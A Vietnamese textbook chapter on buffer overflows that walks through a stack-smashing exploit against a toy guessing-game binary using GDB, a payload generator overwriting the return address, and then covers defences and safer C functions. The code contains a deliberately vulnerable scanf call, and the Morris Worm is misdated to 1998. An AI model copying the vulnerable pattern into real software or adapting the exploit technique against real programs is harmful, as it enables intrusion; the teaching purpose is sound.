



## 8.10. Thực tế: Buffer Overflow

Ngôn ngữ C không thực hiện việc kiểm tra giới hạn mảng (array bounds checking) một cách tự động.  
Việc truy cập bộ nhớ nằm ngoài phạm vi của một mảng là vấn đề nghiêm trọng và thường dẫn đến các lỗi như **segmentation fault**.  
Tuy nhiên, một kẻ tấn công tinh vi có thể chèn mã độc để cố ý ghi đè ra ngoài biên của mảng (hay còn gọi là **buffer**) nhằm buộc chương trình thực thi theo cách không mong muốn.  
Trong trường hợp xấu nhất, kẻ tấn công có thể chạy mã cho phép chúng giành được **root privilege** (quyền root) hoặc quyền truy cập cấp hệ điều hành vào hệ thống máy tính.  
Một phần mềm khai thác lỗ hổng tràn bộ đệm đã biết trong một chương trình được gọi là **buffer overflow exploit**.

Trong phần này, chúng ta sẽ sử dụng **GDB** và ngôn ngữ assembly để phân tích chi tiết cơ chế của một buffer overflow exploit.  
Trước khi đọc chương này, bạn nên tham khảo chương nói về [GDB để kiểm tra mã assembly](../C3-C_debug/gdb_assembly.html#_debugging_assembly_code).

### 8.10.1. Các ví dụ nổi tiếng về Buffer Overflow

Các buffer overflow exploit xuất hiện từ những năm 1980 và vẫn là mối đe dọa lớn của ngành công nghiệp máy tính cho đến đầu những năm 2000.  
Mặc dù nhiều hệ điều hành hiện đại đã có cơ chế bảo vệ chống lại các cuộc tấn công buffer overflow đơn giản nhất, nhưng các lỗi lập trình bất cẩn vẫn có thể khiến chương trình hiện đại dễ bị tấn công.  
Gần đây, các buffer overflow exploit đã được phát hiện trong **Skype**¹, **Android**², **Google Chrome**³ và nhiều phần mềm khác.

Dưới đây là một số ví dụ lịch sử đáng chú ý:

**The Morris Worm**  
Morris Worm⁴ được phát tán năm 1998 trên ARPANet từ MIT (nhằm che giấu việc nó được viết bởi một sinh viên Cornell) và khai thác lỗ hổng tràn bộ đệm trong **Unix finger daemon** (`fingerd`).  
Trong Linux và các hệ thống tương tự Unix, **daemon** là một loại tiến trình chạy nền liên tục, thường thực hiện các tác vụ dọn dẹp và giám sát.  
Daemon `fingerd` trả về báo cáo thân thiện về một máy tính hoặc người dùng.  
Điểm nguy hiểm nhất là con sâu này có cơ chế tự nhân bản, khiến nó được gửi nhiều lần tới cùng một máy tính, làm hệ thống chậm đến mức không thể sử dụng.  
Mặc dù tác giả tuyên bố đây chỉ là một thử nghiệm trí tuệ vô hại, nhưng cơ chế nhân bản đã giúp sâu lây lan dễ dàng và khó bị loại bỏ.  
Trong những năm sau đó, nhiều loại sâu khác cũng sử dụng buffer overflow exploit để truy cập trái phép vào hệ thống, ví dụ: **Code Red** (2001), **MS-SQLSlammer** (2003) và **W32/Blaster** (2003).

**AOL Chat Wars**  
David Auerbach⁵, cựu kỹ sư Microsoft, kể lại trải nghiệm của mình với một buffer overflow trong quá trình tích hợp **Microsoft Messenger Service (MMS)** với **AOL Instant Messenger (AIM)** vào cuối những năm 1990.  
Thời điểm đó, AIM là dịch vụ nhắn tin nhanh phổ biến nhất.  
Microsoft muốn chen chân vào thị trường này bằng cách thiết kế tính năng cho phép người dùng MMS trò chuyện với “buddies” trên AIM.  
Không hài lòng, AOL đã vá máy chủ để MMS không thể kết nối.  
Các kỹ sư Microsoft tìm ra cách để MMS giả lập thông điệp của AIM gửi tới máy chủ AOL, khiến AOL khó phân biệt tin nhắn từ MMS và AIM.  
AOL đáp trả bằng cách thay đổi định dạng tin nhắn của AIM, và MMS lại chỉnh sửa để bắt chước.  
Cuộc “chiến tranh chat” này tiếp diễn cho đến khi AOL sử dụng một lỗi buffer overflow **ngay trong client của họ** để xác minh tin nhắn đến từ AIM.  
Vì MMS không có lỗ hổng này, cuộc chiến kết thúc với phần thắng thuộc về AOL.

### 8.10.2. Cái nhìn đầu tiên: Trò chơi đoán số

Để giúp bạn hiểu cơ chế của một cuộc tấn công buffer overflow, chúng tôi cung cấp một file thực thi 32-bit của một chương trình đơn giản cho phép người dùng chơi trò đoán số với máy.  
Tải file `secret` tại [liên kết này](_attachments/secret.tar.gz) và giải nén bằng lệnh:

```
$ tar -xzvf secret.tar.gz
```

Bên dưới là bản sao của `main.c` ([main.c](_attachments/main.c)), file chính của chương trình:

```c
#include <stdio.h>
#include <stdlib.h>
#include "other.h" //contains secret function definitions

/*prints out the You Win! message*/
void endGame(void) {
    printf("You win!\n");
    exit(0);
}

/*main function of the game*/
int main(void) {

    int guess, secret, len;
    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");
    scanf("%s", buf); //read guess from user input
    guess = atoi(buf); //convert to an integer

    secret = getSecretCode(); //call the getSecretCode() function

    //check to see if guess is correct
    if (guess == secret) {
        printf("You got it right!\n");
    }
    else {
        printf("You are so wrong!\n");
        return 1; //if incorrect, exit
    }

    printf("Enter the secret string to win:\n");
    scanf("%s", buf); //get secret string from user input

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

    //check to see if guess is correct
    if (guess != secret){
        printf("You lose!\n");
        return 2; //if guess is wrong, exit
    }

    /*if both the secret string and number are correct
    call endGame()*/
    endGame();

    return 0;
}
```

Chương trình này yêu cầu người dùng nhập một số bí mật và sau đó là một chuỗi bí mật để thắng trò chơi.  
File header `other.h` chứa định nghĩa của các hàm `getSecretCode` và `calculateValue`, nhưng chúng ta không có file này.  
Vậy làm sao để thắng trò chơi?  
Thử brute force sẽ mất quá nhiều thời gian.  
Một chiến lược là phân tích file thực thi `secret` trong GDB và bước qua mã assembly để tìm ra số và chuỗi bí mật.  
Quá trình phân tích mã assembly để hiểu cách nó hoạt động được gọi là **reverse engineering**.  
Những người thành thạo GDB và đọc assembly có thể dùng GDB để reverse engineer số và chuỗi bí mật.

Tuy nhiên, vẫn còn một cách khác tinh vi hơn để chiến thắng.

### 8.10.3. Xem xét kỹ hơn (Under the C)

Chương trình có khả năng chứa lỗ hổng tràn bộ đệm tại lần gọi `scanf` đầu tiên.  
Để hiểu chuyện gì đang xảy ra, hãy kiểm tra mã assembly của hàm `main` bằng GDB.  
Chúng ta sẽ đặt breakpoint tại địa chỉ `0x0804859f`, là lệnh ngay trước khi gọi `scanf` (nếu đặt breakpoint tại địa chỉ của `scanf`, chương trình sẽ dừng **bên trong** `scanf`, chứ không phải trong `main`).

```
   0x08048582 <+0>:     push   %ebp
   0x08048583 <+1>:     mov    %esp,%ebp
   0x08048588 <+6>:     sub    $0x38,%esp
   0x0804858b <+9>:     movl   $0x8048707,(%esp)
   0x08048592 <+16>:    call   0x8048390 <printf@plt>
   0x08048597 <+21>:    lea    0x1c(%esp),%eax
   0x0804859b <+25>:    mov    %eax,0x4(%esp)
=> 0x0804859f <+29>:    movl   $0x804871c,(%esp)
   0x080485a6 <+36>:    call   0x80483e0 <scanf@plt>
```

**Hình 1** mô tả stack ngay trước khi gọi `scanf`:

  
**Hình 1.** Call stack ngay trước khi gọi `scanf`

Trước khi gọi `scanf`, các tham số của nó được nạp sẵn vào stack, với tham số thứ nhất ở đỉnh stack và tham số thứ hai ở ngay dưới.  
Lệnh `lea` tại `<main+21>` tạo địa chỉ tham chiếu cho mảng `buf`.

Giả sử người dùng nhập `12345678` tại prompt.  
**[afterScanf]** minh họa stack ngay sau khi `scanf` hoàn tất:

  
**Hình 2.** Call stack ngay sau khi gọi `scanf` với input `12345678`

Hãy nhớ rằng mã hex của các ký tự số từ `'0'` đến `'9'` là từ `0x30` đến `0x39`, và mỗi ô nhớ trên stack dài 4 byte.  
Frame pointer cách stack pointer 56 byte.  
Bạn có thể xác nhận giá trị của `%ebp` bằng GDB với lệnh:

```
p $ebp
```

Trong ví dụ này, `%ebp` có giá trị `0xffffd428`.  
Lệnh sau cho phép xem 64 byte (dạng hex) bên dưới `%esp`:

```
(gdb) x /64bx $esp
```

Lệnh này sẽ cho kết quả tương tự như sau:

```
0xffffd3f0:     0x1c    0x87    0x04    0x08    0x0c    0xd4    0xff    0xff
0xffffd3f8:     0x00    0xa0    0x04    0x08    0xb2    0x86    0x04    0x08
0xffffd400:     0x01    0x00    0x00    0x00    0xc4    0xd4    0xff    0xff
0xffffd408:     0xcc    0xd4    0xff    0xff    0x31    0x32    0x33    0x34
0xffffd410:     0x35    0x36    0x37    0x38    0x00    0x80    0x00    0x00
0xffffd418:     0x6b    0x86    0x04    0x08    0x00    0x80    0xfb    0xf7
0xffffd420:     0x60    0x86    0x04    0x08    0x00    0x00    0x00    0x00
0xffffd428:     0x00    0x00    0x00    0x00    0x43    0x5a    0xe1    0xf7
```


Mỗi dòng trong kết quả hiển thị đại diện cho hai từ 32-bit. Vì vậy, dòng đầu tiên biểu diễn các từ tại địa chỉ `0xffffd3f0` và `0xffffd3f4`. Nhìn vào đỉnh của stack, ta có thể thấy địa chỉ bộ nhớ trỏ tới chuỗi `"%s"` (hay `0x0804871c`), theo sau là địa chỉ của `buf` (hay `0xffffd40c`). Lưu ý rằng trong các hình minh họa của phần này, địa chỉ của `buf` được rút gọn thành `0x40c`.

|   |   |
|---|---|
|   | **Các giá trị nhiều byte (multibyte) được lưu theo thứ tự little-endian** |
|   | > Trong đoạn assembly trước đó, byte tại địa chỉ `0xfffffd3f0` là `0x1c`, byte tại `0xfffffd3f1` là `0x87`, byte tại `0xfffffd3f2` là `0x04`, và byte tại `0xfffffd3f3` là `0x08`. Tuy nhiên, *giá trị* 32-bit (tương ứng với địa chỉ bộ nhớ của chuỗi `"%s"`) tại địa chỉ `0xfffffd3f0` thực chất là `0x0804871c`. Hãy nhớ rằng vì x86 là hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order), các byte của giá trị nhiều byte như địa chỉ sẽ được lưu theo thứ tự đảo ngược. Tương tự, các byte tương ứng với địa chỉ của mảng `buf` (`0xffffd40c`) cũng được lưu theo thứ tự đảo ngược tại địa chỉ `0xfffffd3f4`. |

Các byte liên quan đến địa chỉ `0xffffd40c` nằm trên cùng một dòng với các byte tại địa chỉ `0xffffd408`, và là từ thứ hai trên dòng đó. Vì mảng `buf` dài 12 byte, các phần tử của `buf` chiếm 12 byte từ địa chỉ `0xffffd40c` đến `0xffffd417`. Kiểm tra các byte tại những địa chỉ này cho kết quả:

```
0xffffd408:     0xcc    0xd4    0xff    0xff    0x31    0x32    0x33    0x34
0xffffd410:     0x35    0x36    0x37    0x38    0x00    0x80    0x00    0x00
```

Tại đây, ta có thể thấy rõ biểu diễn hex của chuỗi nhập `12345678`. Byte kết thúc null `\0` xuất hiện ở vị trí byte ngoài cùng bên trái tại địa chỉ `0xffffd414`. Hãy nhớ rằng `scanf` sẽ kết thúc tất cả các chuỗi bằng một byte null.

Tất nhiên, `12345678` không phải là số bí mật. Đây là kết quả khi chạy `secret` với chuỗi nhập `12345678`:

```
$ ./secret
Enter secret number:
12345678
You are so wrong!
$ echo $?
1
```

Lệnh `echo $?` in ra giá trị trả về của lệnh vừa chạy trong shell. Trong trường hợp này, chương trình trả về `1` vì số bí mật nhập vào sai. Theo quy ước, chương trình trả về `0` khi không có lỗi. Mục tiêu tiếp theo của chúng ta là tìm cách khiến chương trình thoát với giá trị trả về `0`, nghĩa là chúng ta thắng trò chơi.

### 8.10.4. Buffer Overflow: Lần thử đầu tiên

Tiếp theo, hãy thử nhập chuỗi:

```
1234567890123456789012345678901234
```

Kết quả:

```
$ ./secret
Enter secret number:
1234567890123456789012345678901234
You are so wrong!
Segmentation fault (core dumped)
$ echo $?
139
```

Thú vị đấy! Lần này chương trình bị crash với lỗi segmentation fault, mã trả về `139`. **Hình 3** cho thấy call stack của `main` ngay sau khi gọi `scanf` với chuỗi nhập mới này:

  
**Hình 3.** Call stack ngay sau khi gọi `scanf` với input `1234567890123456789012345678901234`

Chuỗi nhập quá dài này không chỉ ghi đè giá trị tại địa chỉ `0x428`, mà còn tràn xuống ghi đè cả địa chỉ trả về (return address) bên dưới stack frame của `main`. Hãy nhớ rằng khi một hàm trả về, chương trình sẽ cố tiếp tục thực thi tại địa chỉ được lưu trong return address. Trong ví dụ này, chương trình cố chạy tiếp tại địa chỉ `0xf7003433` sau khi thoát `main`, nhưng địa chỉ này không tồn tại. Do đó, chương trình crash với segmentation fault.

Chạy lại chương trình trong GDB (`input.txt` chứa chuỗi nhập ở trên) sẽ cho thấy điều này rõ ràng:

```
$ gdb secret
(gdb) break *0x804859b
(gdb) ni
(gdb) run < input.txt
(gdb) x /64bx $esp
0xffffd3f0:     0x1c    0x87    0x04    0x08    0x0c    0xd4    0xff    0xff
0xffffd3f8:     0x00    0xa0    0x04    0x08    0xb2    0x86    0x04    0x08
0xffffd400:     0x01    0x00    0x00    0x00    0xc4    0xd4    0xff    0xff
0xffffd408:     0xcc    0xd4    0xff    0xff    0x31    0x32    0x33    0x34
0xffffd410:     0x35    0x36    0x37    0x38    0x39    0x30    0x31    0x32
0xffffd418:     0x33    0x34    0x35    0x36    0x37    0x38    0x39    0x30
0xffffd420:     0x31    0x32    0x33    0x34    0x35    0x36    0x37    0x38
0xffffd428:     0x39    0x30    0x31    0x32    0x33    0x34    0x00    0xf7
```

Có thể thấy chuỗi nhập đã vượt quá giới hạn của mảng `buf`, ghi đè lên tất cả các giá trị khác trên stack. Nói cách khác, chuỗi này đã tạo ra một **buffer overrun** và làm hỏng call stack, khiến chương trình crash. Quá trình này còn được gọi là **smashing the stack**.

### 8.10.5. Buffer Overflow thông minh hơn: Lần thử thứ hai

Trong ví dụ đầu tiên, chúng ta đã “đập nát” stack bằng cách ghi đè thanh ghi `%ebp` và địa chỉ trả về bằng dữ liệu rác, khiến chương trình crash. Một kẻ tấn công chỉ muốn làm chương trình sập thì đến đây đã hài lòng. Tuy nhiên, mục tiêu của chúng ta là đánh lừa trò chơi đoán số để nó trả về `0`, nghĩa là chúng ta thắng. Ta có thể làm điều này bằng cách ghi đè stack bằng dữ liệu có ý nghĩa hơn là rác. Ví dụ: ta có thể thay địa chỉ trả về bằng địa chỉ của hàm `endGame`. Khi chương trình cố trả về từ `main`, nó sẽ chạy `endGame` thay vì crash với segmentation fault.

Để tìm địa chỉ của `endGame`, hãy mở lại `secret` trong GDB:

```
$ gdb secret
(gdb) disas endGame
Dump of assembler code for function endGame:
    0x08048564 <+0>:     push   %ebp
    0x08048565 <+1>:     mov    %esp,%ebp
    0x08048567 <+3>:     sub    $0x18,%esp
    0x0804856a <+6>:     movl   $0x80486fe,(%esp)
    0x08048571 <+13>:    call   0x8048390 <puts@plt>
    0x08048576 <+18>:    movl   $0x0,(%esp)
    0x0804857d <+25>:    call   0x80483b0 <exit@plt>
End of assembler dump.
```

Một lần nữa, vì x86 là hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order) trong đó stack phát triển về phía địa chỉ thấp hơn, nên các byte trong địa chỉ trả về sẽ xuất hiện theo thứ tự đảo ngược.

Chương trình dưới đây minh họa cách một kẻ tấn công có thể tạo ra exploit như trên:

```c
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /* 10 byte rác đầu tiên */
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /* 10 byte rác tiếp theo */
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /* 10 byte rác tiếp theo nữa */
"\x31\x32"                                 /* 2 byte rác cuối */
"\x64\x85\x04\x08"                         /* địa chỉ của endGame (little-endian) */
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /* in từng ký tự */
        printf("%c", ebuff[i]);
    }
    return 0;
}
```

Ký tự `\x` trước mỗi số cho biết số đó được biểu diễn ở dạng giá trị thập lục phân của một ký tự. Sau khi định nghĩa `ebuff[]`, hàm `main` chỉ đơn giản in ra từng ký tự một.  
Để tạo chuỗi byte tương ứng, biên dịch và chạy chương trình như sau:

```
$ gcc -o genEx genEx.c
$ ./genEx > exploit
```

Để dùng file `exploit` làm input cho `scanf`, chỉ cần chạy `secret` với `exploit` như sau:

```
$ ./secret < exploit
Enter secret number:
You are so wrong!
You win!
```

Chương trình in ra `"You are so wrong!"` vì chuỗi trong `exploit` **không** phải là số bí mật. Tuy nhiên, chương trình cũng in `"You win!"`.  
Hãy nhớ rằng mục tiêu của chúng ta là đánh lừa chương trình trả về `0`. Trong một hệ thống lớn hơn, nơi trạng thái “thành công” được theo dõi bởi một chương trình bên ngoài, điều quan trọng nhất thường là giá trị trả về của chương trình, chứ không phải những gì nó in ra.

Kiểm tra giá trị trả về:

```
$ echo $?
0
```

Exploit của chúng ta đã thành công! Chúng ta đã thắng trò chơi.

### 8.10.6. Bảo vệ chống lại Buffer Overflow

Ví dụ trên đã thay đổi luồng điều khiển của file thực thi `secret`, buộc nó trả về giá trị 0 (thành công). Tuy nhiên, một exploit như vậy có thể gây ra thiệt hại thực sự.  
Hơn nữa, một số hệ thống máy tính cũ **thực thi** các byte từ bộ nhớ stack. Nếu kẻ tấn công đặt các byte tương ứng với lệnh assembly lên call stack, CPU sẽ diễn giải chúng như các lệnh **thật**, cho phép kẻ tấn công buộc CPU thực thi **bất kỳ mã tùy ý nào**.

May mắn thay, các hệ thống hiện đại có nhiều chiến lược để làm cho việc khai thác buffer overflow trở nên khó khăn hơn:

- **Stack Randomization**: Hệ điều hành cấp phát địa chỉ bắt đầu của stack tại một vị trí ngẫu nhiên trong bộ nhớ stack, khiến vị trí/kích thước của call stack thay đổi giữa các lần chạy. Nhiều máy chạy cùng một chương trình sẽ có địa chỉ stack khác nhau. Linux hiện đại dùng kỹ thuật này như một tiêu chuẩn. Tuy nhiên, kẻ tấn công kiên trì vẫn có thể brute force bằng cách thử nhiều địa chỉ khác nhau. Một mẹo phổ biến là dùng **NOP sled** — một dãy dài các lệnh `nop` (`0x90`) trước mã exploit. Lệnh `nop` không làm gì ngoài việc tăng program counter sang lệnh tiếp theo. Miễn là CPU bắt đầu thực thi ở đâu đó trong NOP sled, nó sẽ trượt đến đoạn mã exploit phía sau. Bài viết *Smashing the Stack for Fun and Profit* của Aleph One⁶ mô tả chi tiết cơ chế này.

- **Stack corruption detection**: Một biện pháp khác là phát hiện khi stack bị hỏng. Các phiên bản GCC gần đây dùng một cơ chế bảo vệ gọi là **canary** — một giá trị đóng vai trò như “chim hoàng yến” canh gác giữa buffer và các phần tử khác của stack. Canary được lưu ở vùng bộ nhớ không ghi đè được và được so sánh với giá trị đặt trên stack. Nếu canary “chết” trong quá trình chạy, chương trình biết mình đang bị tấn công và sẽ dừng với thông báo lỗi. Tuy nhiên, kẻ tấn công tinh vi có thể thay thế canary để tránh bị phát hiện.

- **Giới hạn vùng có thể thực thi**: Ở biện pháp này, mã thực thi chỉ được phép nằm trong một số vùng bộ nhớ nhất định, nghĩa là call stack không còn khả năng thực thi. Tuy nhiên, biện pháp này cũng có thể bị vượt qua. Trong tấn công **return-oriented programming** (ROP), kẻ tấn công có thể “nhặt” các lệnh trong vùng thực thi và nhảy từ lệnh này sang lệnh khác để tạo thành exploit. Có nhiều ví dụ nổi tiếng về kỹ thuật này, đặc biệt trong các trò chơi điện tử⁷.

Tuy nhiên, tuyến phòng thủ tốt nhất vẫn là lập trình viên.  
Để ngăn chặn buffer overflow trong chương trình của bạn, hãy dùng các hàm C có **length specifier** bất cứ khi nào có thể và thêm code kiểm tra giới hạn mảng. Điều quan trọng là các mảng được khai báo phải khớp với length specifier đã chọn.

**Bảng 1** liệt kê một số hàm C “xấu” dễ bị buffer overflow và hàm “tốt” nên dùng thay thế (giả sử `buf` được cấp phát 12 byte):

| Thay vì:              | Hãy dùng:                         |
|-----------------------|-----------------------------------|
| `gets(buf)`           | `fgets(buf, 12, stdin)`           |
| `scanf("%s", buf)`    | `scanf("%12s", buf)`              |
| `strcpy(buf2, buf)`   | `strncpy(buf2, buf, 12)`          |
| `strcat(buf2, buf)`   | `strncat(buf2, buf, 12)`          |
| `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)` |

**Bảng 1.** Các hàm C với length specifier.

File nhị phân `secret2` ([secret2.tar.gz](_attachments/secret2.tar.gz)) không còn lỗ hổng buffer overflow. Đây là hàm `main` của bản nhị phân mới này ([main2.c](_attachments/main2.c)):

```c
#include <stdio.h>
#include <stdlib.h>
#include "other.h" //contain secret function definitions

/*prints out the You Win! message*/
void endGame(void) {
    printf("You win!\n");
    exit(0);
}

/*main function of the game*/
int main(void) {
    int guess, secret, len;
    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");
    scanf("%12s", buf); //read guess from user input (fixed!)
    guess = atoi(buf); //convert to an integer

    secret=getSecretCode(); //call the getSecretCode function

    //check to see if guess is correct
    if (guess == secret) {
        printf("You got it right!\n");
    }
    else {
        printf("You are so wrong!\n");
        return 1; //if incorrect, exit
    }

    printf("Enter the secret string to win:\n");
    scanf("%12s", buf); //get secret string from user input (fixed!)

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

    //check to see if guess is correct
    if (guess != secret) {
        printf("You lose!\n");
        return 2; //if guess is wrong, exit
    }

    /*if both the secret string and number are correct
    call endGame()*/
    endGame();

    return 0;
}
```
Lưu ý rằng chúng ta đã thêm **length specifier** (chỉ định độ dài) vào tất cả các lời gọi `scanf`, khiến hàm `scanf` sẽ dừng đọc dữ liệu từ input sau khi đọc đủ 12 byte đầu tiên. Nhờ đó, chuỗi exploit không còn làm chương trình bị lỗi nữa:

```
$ ./secret2 < exploit
Enter secret number:
You are so wrong!
$ echo $?
1
```

Tất nhiên, bất kỳ ai có kỹ năng **reverse engineering** (kỹ thuật đảo ngược) cơ bản vẫn có thể thắng trò chơi đoán số bằng cách phân tích mã assembly. Nếu bạn chưa thử đánh bại chương trình bằng reverse engineering, chúng tôi khuyến khích bạn thử ngay bây giờ.

### Tài liệu tham khảo

1. Mohit Kumar. [Critical Skype Bug Lets Hackers Remotely Execute Malicious Code](https://thehackernews.com/2017/06/skype-crash-bug.html). 2017.

2. Tamir Zahavi-Brunner. [CVE-2017-13253: Buffer overflow in multiple Android DRM services](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/). 2018.

3. Tom Spring. [Google Patches 'High Severity' Browser Bug](https://threatpost.com/google-patches-high-severity-browser-bug/128661/). 2017.

4. Christopher Kelty. [The Morris Worm](https://limn.it/articles/the-morris-worm/) Limn Magazine, Issue 1. Issue 1, Systemic Risk. 2011.

5. David Auerbach. [Chat Wars: Microsoft vs. AOL](https://nplusonemag.com/issue-19/essays/chat-wars/) NplusOne Magazine, Issue 19. Spring 2014.

6. Aleph One. [Smashing the Stack for Fun and Profit](http://insecure.org/stf/smashstack.html). 1996.

7. DotsAreCool. [Super Mario World Credit Warp](https://youtu.be/vAHXK2wut_I) (Nintendo ROP example). 2015.